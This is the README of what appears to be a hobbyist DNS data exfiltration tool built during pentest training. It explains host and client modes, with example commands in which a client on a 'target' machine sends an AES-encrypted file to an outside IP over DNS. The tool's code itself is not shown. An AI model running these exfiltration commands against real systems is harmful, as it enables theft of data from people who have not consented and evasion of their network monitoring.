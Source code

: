 # A lightweight, easy-to-use, DNS data exfiltrator
As I was plowing through the INE eJPT course, I ran into a DNS data exfiltrator that I thought was annoying to use. So I rolled my own. This is the result. I am open to suggestions, critique and questions. I learned a lot from building this, both about the DNS protocol and how data exfiltration works and some neat tricks in Python. I hope it'll benefit you in your (legal!) endeavors.

## Installation
Just clone/download the script from this Git repo

## Dependencies / Requirements
* Python 3.8+
* PyCryptodome: `pip3 install pycryptodome`

## Usage
The script can be run in two modes: host or client. The host mode should be used on your own machine, where the data is being exfiltrated to. The client mode should be run on your target's machine, where the data is being exfiltrated from. The data that is being exfiltrated is encrypted using AES256 symmetric encryption. It is therefore important that you set the same seed phrase or password on both the host and client.

### Host
Running the script in host mode will run a mock DNS server on udp/53 (by default, you can change the port if you want to) which is built specifically to receive exfiltrated data from the script in client mode. For example:
```
python3 dns-exfil.py -mode host -hostip "127.0.0.1" -password "s3cr3tp4ssw0rd"
```

### Client
On your target machine, copy-paste / install the script and run it. For example:
```
python3 dns-exfil.py -mode client -dest "your_public_machine_ip" -password "s3cr3tp4ssw0rd" -file "/path/to/the/file/you/want/to/exfil"
```

### More help
```
python3 dns-exfil.py -h
```
